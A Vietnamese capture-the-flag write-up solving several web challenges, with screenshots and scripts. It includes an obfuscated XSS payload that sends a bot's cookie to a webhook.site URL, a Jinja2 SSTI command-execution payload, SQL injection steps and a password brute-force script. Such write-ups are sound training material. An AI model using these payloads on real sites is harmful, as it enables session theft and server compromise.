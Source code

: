 # Spinner

Source code js của chall này nằm ngay trong web
![image](https://hackmd.io/_uploads/HJwiSmmV0.png)

Để ý thấy khi spins đủ 10,000 vòng thì flag sẽ hiện ra =)) Bài warm ups rất hay. Ở đây mình chỉ cần ghi hai lệnh trong if kia để lấy flag trong console.

![image](https://hackmd.io/_uploads/H1VXIX7N0.png)
Flag: `actf{b152d497db04fcb1fdf6f3bb64522d5e}`


# Markdown 
Để ý thấy có 2 link, link đầu tiên cho mình ghi text và in ra màn hình, link thứ 2 là 1 con bot sẽ visit link của mình. Chắc chắn đây là 1 bài XSS. 

![image](https://hackmd.io/_uploads/r1bQDQ7ER.png)
Khi gửi token vào /flag ta sẽ có được flag. Vì vậy, ta cần XSS steal cookie của con bot này. Test với link đầu tiên.

Ở đây web sử dụng markdown gì đấy nên có vẻ 1 số loại thẻ sẽ không được nhận. Mình luôn thử thẻ script đầu tiên và không có điều gì xảy ra. Nó bị xóa luôn khỏi HTML
![image](https://hackmd.io/_uploads/S1UqPQ7NA.png)

Inject 1 thẻ img và thành công. `<img src=x onerror=alert(1)>`
![image](https://hackmd.io/_uploads/rJkRD7XVC.png)

Nhưng khi mình chèn link web hook vào thì nó lại bị tách thành 1 thẻ a mới khiến XSS không thành công. 
![image](https://hackmd.io/_uploads/H1GSOQm4A.png)

Mình nghĩ đến biến hàm fetch đến webhook thành base64 rồi eval(atob) nó. 
![image](https://hackmd.io/_uploads/BJagK7m4C.png)

Tiếp tục không nhận. Thử tiếp hàm String.fromCharCode xem
Thành công request đến webhook của mình.
![image](https://hackmd.io/_uploads/SkJFKm7EA.png)

`<img src=x onerror=eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,57,52,49,99,100,53,56,50,45,97,51,50,53,45,52,57,51,98,45,57,97,49,56,45,49,55,49,97,97,54,57,49,57,53,98,52,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))>`


Gửi đến con bot thôi. Gửi đến con bot thì không có gì xảy ra. Có vẻ như đã bị CSP chặn. Hàm fetch bình thường sẽ không được, cho nên mình sẽ sử dụng hàm fetch được nâng cấp thêm
```
fetch('<URL muốn gửi đến>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
```

Chỉnh sửa lại payload, gửi đến con bot ta được token và request đến /flag thoai
![image](https://hackmd.io/_uploads/rJ99cQmVC.png)

Hể we go 
![image](https://hackmd.io/_uploads/rk6xomQNR.png)
Flag: `actf{b534186fa8b28780b1fcd1e95e2a2e2c}`

# Winds
Challenge này là 1 chall SSTI jinja2, do có sink là hàm render_template_string cùng với source do mình kiểm soát (jumbled). Nhưng nó sẽ bị suffle như bên dưới. 
![image](https://hackmd.io/_uploads/HkuUiQ7EC.png)


Ở đây, mình sẽ có đoạn script như sau: 
```python=
import random

def suf(text):
    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    return ''.join(jumbled)

def desuf(payload):
    random.seed(0)
    indices = list(range(len(payload)))
    random.shuffle(indices)
    original_input = [''] * len(payload)
    for i, index in enumerate(indices):
        original_input[index] = payload[i]
    return ''.join(original_input)
```

Đại khái thì đoạn code sẽ làm như sau. Đầu tiên nó tạo 1 list chứa các số từ 0 đến length(payload) - 1. Sau đó suffle với seed 0 như web sẽ làm. Sau đó, mình sẽ sắp xếp lại payload sao cho số trong mảng indices kia là index trong string của payload. Khi đó, payload được sắp xếp sẽ đi qua lại hàm suffle của web và thành payload hoàn chỉnh chạy được. 

Tìm đại 1 payload RCE để đọc flag. 

```python=
payload = "{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"

print(desuf(payload))
print(suf(desuf(payload)))
#Payload: bft_. rs{'n gll_exte_i_{e_.'._enl)cltoeapl(ec.lee}.ap}Tootscnrdmt(f_f_ra_y)ie taacce.tReps._n_.ogx
#Payload sau khi đi qua hàm seed của web sẽ được sắp xếp lại đúng: {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

![image](https://hackmd.io/_uploads/B1SxpQmEA.png)
Flag: `actf{2cb542c944f737b85c6bb9183b7f2ea8}`

# Store
![image](https://hackmd.io/_uploads/HJMLTQm4C.png)
Preview của bài này khiến mình đoán được đây là 1 chall về SQLi
![image](https://hackmd.io/_uploads/HkxFpQ74A.png)
Trong source của web có đoạn script sau. Nghĩa là nó chặn các kĩ tự khác ngoài [a-zA-Z0-9, ]

Khi đó mình sẽ nhập payload trong BurpSuite để không bị đoạn script chặn
![image](https://hackmd.io/_uploads/SyUeRmQNR.png)

Mình sẽ detect số cột cùng với kiểu dữ liệu từng cột trước khi detect DB.
Nó có 3 cột và thứ tự sẽ là int, varchar, varchar.
![image](https://hackmd.io/_uploads/BJEFCm7NA.png)

(Mình lúc đầu thử select null,null,null nhưng lại bị lỗi. Tưởng payload lỗi nên thử nhiều payload khác... May có hint của anh Thắng)

DB sử dụng loại SQLite
![image](https://hackmd.io/_uploads/r1v0AXQ4R.png)

Extract DB structure
![image](https://hackmd.io/_uploads/By9Mk4QE0.png)

Extract Flag
![image](https://hackmd.io/_uploads/rJMr14mNA.png)
Flag: `actf{37619bbd0b81c257b70013fa1572f4ed}`

# Store

Bài web này có 2 điều đáng chú ý như sau
```python=
ADMIN_PASSWORD = hashlib.md5(
    f'password-{secrets.token_hex}'.encode()
).hexdigest()

pastes = {}

def add_paste(paste_id, content, admin_only=False):
    pastes[paste_id] = {
        'content': content,
        'admin_only': admin_only,
    }
```

![image](https://hackmd.io/_uploads/BJU1g4XVR.png)

ADMIN_PASSWORD là password được hash md5 với hàm secrets.token_hex.
/paste sẽ tạo ra 1 cái kiểu như log, với hàm id sẽ tạo ra paste_id để ta truy cập vào.

Khi mình truy cập vào id=0 và nhập password đúng sẽ có được flag
`add_paste(0, os.getenv('FLAG', 'missing flag'), admin_only=True)`

Ở đây sẽ cần 1 sự tinh mắt và tư duy nhất định. 
1. Để ý ở trên `secrets.token_hex` chưa được gọi (cần thêm dấu `()`) cho nên nó chỉ là địa chỉ của hàm này. 
2. Thứ hai, hàm id ở dưới sẽ gọi ra địa chỉ của biến paste được tạo kia và gán thành id của nó luôn. 

Kết hợp 2 điều này lại, secrets.token_hex được khai báo trước cho nên sẽ có địa chỉ nhỏ hơn các biến paste kia. Vì vậy, tạo bừa 1 log để lấy được id và trừ dần để bruteforce password với 6 chữ cái đầu là `1797c2` (Khi truy cập vào id=0 sẽ lấy được). 

Ở đây mình có đoạn script sau:
```python=
from hashlib import md5
from tqdm import trange


def crack_password(pass_start, id):
    for i in trange(256**3):
        for j in range(0, 256, 16):
            str = f"password-<function token_hex at {id}{i:x}{j:x}>"
            hash = md5(str.encode()).hexdigest()
            if hash.startswith(pass_start):
                print(f"Potential password: {hash}")
                
id = 135598316332944
id = hex(int(id))[:6]
crack_password("1797c2", id)
```

Script sẽ tạo ra từng password có tiềm năng và mình nhập vào để check.
Password đúng sẽ là `1797c2a48f270a2b42660c2e629c51cd`
![image](https://hackmd.io/_uploads/HyDbzEXNC.png)

Flag: `actf{47fd1d17b0c1121da0fc9d2d0c4fc109}`

P/s: script lượm trên discord chứ cũng không tự viết được.

Script của người ta:

```python=
import requests
from hashlib import md5
from tqdm import trange

url = "https://pastebin.web.actf.co"

def crack_password(pass_start, id):
    for i in trange(256**3):
        for j in range(0, 256, 16):
            str = f"password-<function token_hex at {id}{i:x}{j:x}>"
            hash = md5(str.encode()).hexdigest()
            if hash.startswith(pass_start):
                print(f"Potential password: {hash}")
                response = requests.get(f"{url}/view?id=0&password={hash}")
                if "Incorrect" not in response.text:
                    print(response.text)
                    return

if __name__ == "__main__":
    # Get id
    response = requests.post(f"{url}/paste", data={"content": "nils"})
    id = response.text.split("id=")[1].split('"')[0]
    id = hex(int(id))[:6]
    # Get admin password[:6]
    response = requests.get(f"{url}/view?id=0")
    pass_start = response.text.split("=")[1].split(".")[0]
    # Crack pass
    crack_password(pass_start, id)
```


